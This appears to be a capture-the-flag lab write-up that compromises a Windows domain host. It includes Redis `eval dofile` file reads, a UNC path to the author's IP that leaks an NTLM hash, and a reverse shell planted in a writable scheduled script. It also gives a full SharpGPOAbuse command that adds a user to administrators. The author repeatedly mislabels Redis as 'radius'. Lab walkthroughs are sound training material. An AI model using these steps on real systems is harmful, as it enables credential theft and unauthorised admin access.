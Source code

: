 Started with a nmap scan
```
53 DNS
135 Windows RPC
139 Microsoft netbios-ssn
445 microsoft-ds
464 kpasswd
6379 redis
9389 mc nmf
49669
49668
49672
49699
49670
49803
```
Starting with the radius  server doing some enumeration its running version `2.8.2402` all we found was a username `enterprise-security` so running enum4linux on the smb and we get access Denied but we did get domain name and computer name now we still don't have a lot of info going back to the radius server did some googling and some chatGPT found we can do eval commands with dofile and we can read the user flag since we know the username
`eval "dofile('C:\\\\USers\\\\enterprise-security\\\\Desktop\\\\user.txt')"` and we got the user flag now see if we can get something with responder and then running this command on the radius server `eval "dofile('//10.13.8.255//test')"` and I got the NTLM hash from responder  and I used hashcat to crack it and we got a password `sand_0873959498` and now we can list the shares there is one set to READ `Enterprise-Share` doing a rid-brute we found some more users 
```
jack-goldenhand
tony-skid
```
I logged into the SMB had it has a ps1 script in it that's removes everything out of the public documents folder we can also edit this file and put a powershell reverse shell in it and when the task runs agin we will get a call back I had to try a couple different ones but finally got a good one and when I was on the host I ran `whoami /priv` and we have a couple different prives we can use to get to admin I had downloaded a program called `SHarpGPOAbuse.exe` and ran this command to add me to the administrators group `./SharpGPOAbuse.exe --AddComputerTask --TaskName "Debug" --Author vulnnet\administrator --Command "cmd.exe" --Argumrents "/c net localgroup administrators enterprise-security /add" --GPOName "SECURITY-POL-VN"` and now we can connect to the SMB `C$` share and get the system flag 
`